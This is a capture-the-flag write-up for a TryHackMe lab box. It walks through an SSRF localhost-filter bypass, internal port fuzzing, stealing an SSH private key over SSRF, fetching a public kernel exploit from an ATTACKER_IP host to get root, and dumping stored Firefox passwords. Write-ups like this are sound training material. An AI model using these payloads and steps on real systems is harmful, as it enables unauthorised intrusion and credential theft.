This box is rated medium difficulty on THM. It involves us discovering an SSRF vulnerability on a website that allows for internal service enumeration. We find that port 80 is open and contains a `.ssh` directory with an `id_rsa` key that we can read to get a shell on the box. An outdated Kernel version lets us escalate privileges by exploiting a race condition in the `n_gsm` driver's multiplexing protocol.

_The London Bridge is falling down._

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,8080 -sCV 10.67.146.144 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-08 17:06 CDT
Nmap scan report for 10.67.146.144
Host is up (0.041s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
|_  256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
8080/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Explore London
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

There are just two ports open: 
- SSH on port 22
- A Gunicorn (Python WSGI) web server on port 8080

Not a whole lot we can do with that version of OpenSSH without credentials so I fire up Ffuf to search for any subdirectories and vhosts in the background before heading over to the website.

```
$ ffuf -u http://10.67.146.144:8080/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.146.144:8080/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

contact                 [Status: 200, Size: 1703, Words: 549, Lines: 60, Duration: 51ms]
feedback                [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 44ms]
gallery                 [Status: 200, Size: 1722, Words: 484, Lines: 55, Duration: 43ms]
upload                  [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 45ms]
dejaview                [Status: 200, Size: 823, Words: 226, Lines: 33, Duration: 52ms]

:: Progress: [220560/220560] :: Job [1/1] :: 904 req/sec :: Duration: [0:04:13] :: Errors: 0 ::
```

Checking out the landing page shows some tourist information for London. Navigating to the other tabs reveals that only the gallery and contact buttons work to redirect us elsewhere.



The contact form shows allows us to message the team and doesn't filter any characters. Submitting a test request responds with a message saying that the staff will review our message whenever they get around to it. This may be vulnerable to XSS, however my scans didn't find a login page, so session hijacking is out of the question.



On the other hand, the gallery tab shows plenty of pictures of London and gives us the option to upload images in addition to them. If unsecured, we may be able to put a reverse shell on the box as our foothold.



Capturing a POST request to the upload in Burp Suite shows that just supplying code won't work. I try changing the extension to be valid, but it seems like the website is checking our file's MIME type and only allowing real photos. I spent some time playing with the magic bytes and got a few to upload, however none of them are executed so I move on.

## SSRF
My scans found one other directory at `/dejaview` which prompts us to enter an image URL in order to view it. A quick test for Server-Side Request Forgery by providing my attacking IP shows that it makes a request to the fake file on my web server, opening up a few doors for us.



Next, I tried fuzzing with the localhost IP in order to enumerate internal services on the box, however it would still point back to my attacking web server when attempting to fetch files for some reason. A bit longer of trying to get this to work revealed that this was the extent of what I could to right now.

### Parameter Fuzzing
Deeper enumeration on the site discloses a comment left in the `/gallery` source code which contains a message to the developers.

```
<!--To devs: Make sure that people can also add images using links-->
```

Since we had to fuzz for this directory and not directly linked on the site, I'm guessing it's still in development or at least hasn't been fully tested for security. I spent more time fumbling about until taking the room hint which said to check for parameters left over from the development phase. Looks like I was on the right track, let's use Ffuf to brute force a parameter names until we get one that looks valid.

```
$ ffuf -u 'http://10.67.146.144:8080/view_image' -X POST -w /opt/SecLists/directory-list-2.3-medium.txt -H 'Content-Type: application/x-www-form-urlencoded' -d 'FUZZ=/uploads/e3.jpg' --fl 33 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.67.146.144:8080/view_image
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=/uploads/e3.jpg
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 33
________________________________________________

www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 57ms]
```

_Note: I use the value of a valid image from the site's gallery which should return an error with the parameter instead of not found. You'll also have to use a pretty big wordlist for this to show up._

### Internal Service Enumeration
We get a hit back from the `www` parameter. Let's try to use this to enumerate internal services on the box with the same method from earlier.



Supplying the parameter with `localhost` or `127.0.0.1` returns a 403 Forbidden code, however other valid URLs respond with the normal 200 OK that we've seen. It looks like there's a filter in place, however there are more ways to point locally and since other requests work, it's most likely using a blacklist instead of whitelisting all possible other ones.

I find [this SSRF CheatSheet](https://www.cobalt.io/learning-center/server-side-request-forgery-ssrf-overview) from Cobalt Offensive Security that lists a few ways to work around this.

```
__Basic localhost Payloads:__
http://127.0.0.1:port
http://localhost:port
https://127.0.0.1:port
https://localhost:port
http://[::]:port
http://0000::1:port
http://[0:0:0:0:0:ffff:127.0.0.1]
http://0/
http://127.1
http://127.0.1
```

Testing a few payloads as well as specifying port 8080 rewards us with a valid request to the page, confirming a bypass on this filter.



Now let's automate this in Ffuf or Wfuzz by giving it a wordlist of all possible ports which should return a 200 for any existing services. I create a sequence of numbers from 1–65365 and save it to a file used in the requests.

```
#Creating number list for all possible ports
$ seq 65365 > nums.txt

#Fuzzing for internal ports
$ ffuf -w nums.txt -X POST -u 'http://10.67.146.144:8080/view_image' -H 'Content-Type: application/x-www-form-urlencoded' -d 'www=http://127.1:FUZZ' --fw 37

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.67.146.144:8080/view_image
 :: Wordlist         : FUZZ: /home/cbev/nums.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : www=http://127.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 37
________________________________________________

80                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 136ms]
8080                    [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 361ms]
:: Progress: [65365/65365] :: Job [1/1] :: 266 req/sec :: Duration: [0:03:25] :: Errors: 0 ::
```

### Reading SSH Key
We can see an internal web server on port 80 that may hold a few other secrets, considering it's probably still in development. I'll leave another scan running in hopes of finding any secret directories on that server, but let's check out the landing page.



It just holds the London Bridge nursery rhyme with no other functionality, the interesting thing here is the final line which states _"My fair Beth"_ instead of the original _"My fair lady"_. This could be a potential username that we can use to brute force SSH, read private keys, etc.

Checking back on my internal directory scan reveals that we're inside of someone's home directory as shown by the presence of files like `.bash_history` and `.cache`. Luckily for us, there `.ssh` directory is available which we can use to steal someone's private key to authenticate with.

```
www=http://127.1:80/.ssh/id_rsa
```



Attempting to use this key with Beth's username is successful and we grab a proper shell on the box. 

## Privilege Escalation
Listing the `/home` directory shows one other user named Charles, besides root.  I'll focus on files owned and being executed by both of them in hopes that we can read credentials or get a reverse shell.

### Service Hijacking Fail
I couldn't find any SUID bits set on sensitive binaries or hardcoded credentials due to there not being a login page or SQL database. I figured that since the internal web server was being ran on port 80, systemd was probably using the webroot directory in its attempts to find use the config file. Checking /etc/systemd/system/ reveals the app.service file which shows the working directory to be /home/beth, which we have write access to of course.



Beth also had full control over the Gunicorn binary, which meant that if we could get the service to restart or be called, a malicious replacement would run it as root (confirmed by listing process owner) and we'd have the capability to escalate privileges. The only problem was that we had no direct way to reload the daemon and even if we crashed the service, there's no insurance that it would come back up to call our binary.

### Linux Kernel Exploits
Deciding to scrap that idea, I did some more digging on the filesystem. Upon finding a lack of useful files, I turned to enumerating vulnerable services starting with the Linux Kernel. Checking the version with `uname -a` shows a fairly old implementation and a bit of research would lead us to [CVE-2018–18955](https://nvd.nist.gov/vuln/detail/CVE-2018-18955) & [CVE-2023–6546](https://nvd.nist.gov/vuln/detail/cve-2023-6546). The first would require us to have access to the `CAP_SYS_ADMIN` capability on an affected namespace, so that didn't pan out, however the second seemed to meet all criteria on the box.

The vulnerability is caused by insufficient locking in the `n_gsm` multiplexor, allowing concurrent operations on channel objects. By racing channel teardown and configuration operations, attackers trigger a use-after-free, reclaim the freed memory with controlled data, and manipulate kernel structures to gain root privileges.

I found this [Github repository](https://github.com/zerozenxlabs/ZDI-24-020/blob/main/exploit.c) that contained a PoC for the ladder option by searching for **"kernel exploits 4.15.0–112 github"**. Let's give it a shot by transporting it to the remote machine and compiling it.

```
#Grabbing exploit code from local machine
$ curl http://ATTACKER_IP/exploit.c -o exploit.c

#Compiling the C code with GCC on remote machine
$ gcc exploit.c -o exploit -lpthread
```

Now we just need to run it while providing the Linux distro as a parameter.



## Flag Retrieval
Inside of the `/root` directory is a `flag.py` script which holds a Base64 encoded RSA key for persistence on the box and our final flag under in the .root.txt file. The user flag is in `/__pycache__` under Beth's home directory, but getting Charles' password is a bit more nuanced. Just trying to crack the hash from `/etc/shadow` doesn't work, however listing hidden objects in his home directory shows a Mozilla directory. 



This holds all cached passwords and secrets from the Firefox browser which we can dump by using a tool like [Firefox_Decrypt](https://github.com/unode/firefox_decrypt).

```
#Cloning project repository
$ git clone https://github.com/unode/firefox_decrypt
$ cd firefox_decrypt

#Grabbing /8k3bf3zp.charles directory from remote machine
$ wget -r http://MACHINE_IP:7171/8k3bf3zp.charles

#Dumping credentials with tool
$ python3 ../firefox_decrypt.py 8k3bf3zp.charles
2026-03-08 19:36:30,625 - WARNING - profile.ini not found in 8k3bf3zp.charles
2026-03-08 19:36:30,625 - WARNING - Continuing and assuming '8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

And there we go, that cred dumping tool is especially useful on Windows machines whenever you see Mozilla installed due to it not being the default; Either way, that completes this challenge. I enjoyed this one a lot since SSRF is a sneaky way to perform enumeration on a host. I hope this was helpful to anyone following along or stuck and happy hacking!
